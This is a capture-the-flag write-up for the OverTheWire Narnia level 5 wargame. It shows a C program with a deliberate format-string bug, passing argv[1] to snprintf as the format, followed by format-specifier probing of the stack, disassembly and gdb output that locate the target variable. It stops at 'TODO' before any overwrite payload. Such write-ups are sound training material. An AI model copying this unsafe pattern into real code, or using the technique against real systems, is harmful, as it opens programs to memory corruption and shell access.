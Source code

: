 #Narnia5

narnia.labs.overthewire.org

**Username:** narnia5
**Password:** see [narnia4](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria4)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Just running the program provides us a little bit of a hint.
>
>```
# ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffb60dbc)
>```
>
> Peeking at the code we see:
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
> 
int main(int argc, char **argv){
	int i = 1;
	char buffer[64];
>
	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");
>
	if(i==500){
		printf("GOOD\n");
		system("/bin/sh");
	}
>
	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
>```
> 
> Ok, looks like we need to manipulate the value of ```i```.  There is a lot of ```printf``` usage.  Let's try some basic string format entries.
>
>```
# ./narnia5 %x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f76b9960ffb1f4e6] (16)
i = 1 (0xffb1f50c)
>```
>
> Looks like the right track.  Let's see if we can find our way back up the stack to our input.
>
>```
# ./narnia5 AAAA%x%x%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7650960ffbff5f6f75fe315ffbff5f7414141413536376630363930] (60)
i = 1 (0xffbff61c)
# ./narnia5 AAAA%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf767f960ff81c7c6f762d315ff81c7c741414141] (44)
i = 1 (0xff81c7ec)
>```
>
> Looks like we have to read 5 times before we get back to our input.  Now we need to locate where ```i``` resides in memory to attempt to change the value.  Let's run our dissassembler and find a good break point.
>
>```asm
 main:
080484bd         push       ebp                                                 ; XREF=_start+23
080484be         mov        ebp, esp
080484c0         and        esp, 0xfffffff0
080484c3         sub        esp, 0x60
080484c6         mov        dword [ss:esp+0x5c], 0x1
080484ce         mov        eax, dword [ss:ebp+arg_4]
080484d1         add        eax, 0x4
080484d4         mov        eax, dword [ds:eax]
080484d6         mov        dword [ss:esp+0x8], eax                             ; argument "format" for method j_snprintf
080484da         mov        dword [ss:esp+0x4], 0x40                            ; argument "size" for method j_snprintf
080484e2         lea        eax, dword [ss:esp+0x1c]
080484e6         mov        dword [ss:esp], eax                                 ; argument "str" for method j_snprintf
080484e9         call       j_snprintf
080484ee         mov        byte [ss:esp+0x5b], 0x0
080484f3         mov        dword [ss:esp], 0x8048610                           ; "Change i's value from 1 -> 500. ", argument "format" for method j_printf
080484fa         call       j_printf
080484ff         mov        eax, dword [ss:esp+0x5c]
08048503         cmp        eax, 0x1f4
08048508         jne        0x8048522
>
0804850a         mov        dword [ss:esp], 0x8048631                           ; argument "s" for method j_puts
08048511         call       j_puts
08048516         mov        dword [ss:esp], 0x8048636                           ; "/bin/sh", argument "command" for method j_system
0804851d         call       j_system
>```
>
> Let's stop at the comparison between ```i``` and ```500``` at ```0x08048503```.
>
>```
(gdb) run
Starting program: /root/narnia5 
>
Breakpoint 1, 0x08048503 in main ()
(gdb) print/a $eax
$2 = 0x1
(gdb) print/a $esp+0x5c
$3 = 0xffffd4fc
>```
>
> Well it looks like the value of ```i``` is sitting at ```0xffffd4fc```.  Let's see if we can use the string format vulnerability to overwrite it.
>
> TODO
